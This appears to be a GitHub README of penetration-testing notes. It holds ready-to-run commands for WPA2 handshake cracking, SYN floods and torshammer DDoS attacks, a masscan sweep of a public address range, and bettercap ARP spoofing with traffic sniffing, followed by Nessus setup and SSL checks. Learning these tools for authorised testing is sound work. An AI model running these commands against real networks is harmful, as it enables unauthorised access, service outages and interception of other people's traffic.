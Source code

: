 ***This repo is a very highlight collection of tools, techniques, and scanners I've used in my projects to improve security. It covers network reconnaissance, penetration testing, and security assessments. Use these tools responsibly and within legal boundaries.***


## **WPA2-PSK Cracking**
The most common method for cracking **WPA2-PSK** is through an **offline brute-force attack**, which involves attempting multiple password combinations until the correct one is found.  
🔹 *Prerequisite:* Capture a **valid handshake** from an active client on the network.

### ** Tools Used (Aircrack-ng Suite)**
- **`airodump-ng`** – Analyzes networks and captures handshakes.
- **`aireplay-ng`** – Performs deauthentication attacks.
- **`aircrack-ng`** – Cracks the password using the captured handshake.

### ** Capturing Packets for a Target Network**
```sh
sudo airodump-ng --bssid <target_BSSID> --channel <target_channel> --write <output_file> wlan0mon
```

### ** Cracking the Password**
```sh
aircrack-ng -w <wordlist_file> <handshake_file>
```

---

# **Denial-of-Service (DoS) & Distributed Denial-of-Service (DDoS) Attacks**

## **Common Tools**
- **HOIC (High Orbit Ion Cannon)** – Open-source stress testing tool for websites and networks.  
  [Download Here](https://sourceforge.net/projects/highorbitioncannon/)
- **LOIC (Low Orbit Ion Cannon)** – Open-source network stress testing tool used for **DoS attacks**.  
  [Download Here](https://sourceforge.net/projects/loic/)
- **hping3** – A powerful **network testing** and **security auditing** tool.

### ** Example hping3 Command**
```sh
sudo hping3 -S --flood -V -p <IP_ADDRESS>
```

- **torshammer.py** – A Python script for **DDoS attacks**.  
  [GitHub Repository](https://github.com/Karlheinzniebuhr/torshammer)

### ** Example torshammer Command**
```sh
python torshammer.py -t 192.168.1.100 -r 100000 -T
```

---

# **Network Reconnaissance**

## **🛠 Nmap**
[Nmap Cheat Sheet](https://www.stationx.net/nmap-cheat-sheet/)
```sh
nmap -p 80 --script http-generator.nse
nmap -p 443 --script=http-headers,http-title,http-generator 
nmap --script="default and http-*"
```

## **🛠 Masscan**
[Masscan Cheat Sheet](https://cheatsheet.haax.fr/network/port-scanning/masscan_cheatsheet/)
```sh
masscan -p80,443,8080,8443,81,4444,4443,8888 70.176.0.0/16
```

## ** Netdiscover**
[Netdiscover Cheat Sheet](https://neverendingsecurity.wordpress.com/2015/04/07/netdiscover-cheatsheet/)
```sh
sudo netdiscover
```

## **🛠 Bettercap**
[Bettercap Cheat Sheet](https://github.com/Lifka/hacking-resources/blob/main/session-hijacking-cheat-sheet.md)
```sh
sudo bettercap
```

---

# **Nessus - Vulnerability Scanner**
[Nessus](https://www.tenable.com/products/nessus) is a widely used **commercial vulnerability scanner** designed to identify **security threats**, missing patches, misconfigurations, and vulnerable software.

### ** Installation & Setup**
```sh
wget 'https://www.tenable.com/downloads/api/v1/public/pages/nessus/ downloads/18394/download?i_agree_to_tenable_license_agreeme nt=true' -O Nessus_amd64.deb
sudo apt install -f ./Nessus_amd64.deb
sudo systemctl enable nessusd
sudo systemctl start nessusd
systemctl status nessusd
```

> **Note:**  
> 1️⃣ Once installed, navigate to the Nessus web UI.  
> 2️⃣ If you cannot create a new scan immediately, the plugins may still be initializing.  

---

# **ARP Spoofing & MITM Attacks**

### **Tools**
- **Ettercap** – [Official Website](https://www.ettercap-project.org/)
- **MITM Framework** – [GitHub Repository](https://github.com/byt3bl33d3r/MITMf)
- **Driftnet** – [Kali Linux Tool](https://www.kali.org/tools/driftnet/)

### ** Performing MITM Attacks with Bettercap**
```sh
sudo apt-get install bettercap
sudo bettercap --iface <interface>
```

### ** Running an ARP Spoofing Attack**
```sh
net.probe on
set arp.spoof.duplex true
set arp.spoof.targets 192.168.74.128
arp.spoof on
net.sniff on
```

---

# **SSL Verification & MITM Prevention**
To prevent **MITM attacks** through **SSL verification**, ensure the following:  
✅ The **SSL certificate** is issued by a **trusted Certificate Authority (CA)** and is **not revoked**.  
✅ The **domain name** in the certificate matches the **website’s domain**.  
✅ Use **OpenSSL** to manually check certificate details when necessary.

### ** Checking SSL Certificate with OpenSSL**
```sh
openssl s_client -connect <website>:443
```